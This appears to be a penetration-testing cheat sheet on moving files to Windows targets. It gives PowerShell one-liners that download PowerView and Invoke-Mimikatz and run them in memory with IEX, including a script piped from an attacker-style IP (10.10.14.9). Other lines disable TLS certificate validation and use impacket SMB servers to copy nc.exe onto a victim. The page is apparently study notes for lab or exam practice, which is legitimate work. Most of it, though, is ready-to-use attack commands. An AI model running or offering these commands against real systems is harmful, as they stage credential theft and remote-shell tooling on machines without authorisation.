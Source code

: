 * Quick examples to download file and store into disk and to run directly in memory with `IEX` called "**Fileless Method**"

```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/.../PowerView.ps1','PowerView.ps1')
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/.../PowerView.ps1', 'PowerViewAsync.ps1')
​
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/.../Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/.../Invoke-Mimikatz.ps1') | IEX    # same command
```

* There is also `Invoke-WebRequest` (aliases are `iwr`, `curl` and `wget`).

```powershell
Invoke-WebRequest 'https://raw.githubusercontent.com/.../PowerView.ps1' -OutFile 'PowerView.ps1'
```

* Internet Explorer first-launch configuration : use `-UseBasicParsing`.

```powershell
Invoke-WebRequest https://10.10.14.9/PowerView.ps1 -UseBasicParsing | IEX
```

* SSL/TLS for untrusted certificate : execute the following command.

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB

It runs on `TCP/445` for Windows services

I can create a SMB server with this Python tool : [https://github.com/fortra/impacket/blob/master/examples/smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)

* No authentication : example to create a server with no authentication and the Windows client can download the files with no credentials.

```bash
# server
curl -o 'smbserver.py' 'https://raw.githubusercontent.com/fortra/impacket/master/examples/smbserver.py'
sudo python smbserver.py share -smb2support /tmp/smbshare
​
# client
copy \\10.10.14.9\share\nc.exe
```

* With authentication : I can add credentials for the SMB server and log with Windows client where `:n` is the is mounting point letter.

```bash
# server
python smbserver.py share -smb2support /tmp/smbshare -user test

# client
net use n: \\10.10.14.9\share /user:test test
copy n:\nc.exe
```
